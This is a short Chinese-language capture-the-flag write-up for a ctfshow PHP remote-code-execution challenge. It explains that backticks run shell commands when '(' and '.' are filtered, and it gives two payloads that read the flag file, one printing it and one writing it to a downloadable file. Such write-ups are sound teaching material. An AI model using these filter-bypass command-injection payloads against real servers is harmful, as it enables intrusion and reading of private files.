 ```yaml
---
title: ctfshow RCE极限挑战
date: 2024-10-10 19:50:41
permalink: /pages/286e6c/
sidebar: false
categories:
  - wp
tags:
  - RCE
  - ctfshow
  - wp
  - ctf
author: 
  name: the0n3
  link: https://the0n3.top
---
```


## RCE挑战1

::: tip
php里可以使用反引号执行命令，比如\`ls\`;
:::

过滤`(`，`.`，相当于过滤了函数执行和文件名

可以直接echo 把反引号的结果打印出来

```sh
echo `cat /f*`;
```

也可以反引号执行命令，把结果写到文件里，再下载

```sh
`cat /f* > 1`;
```
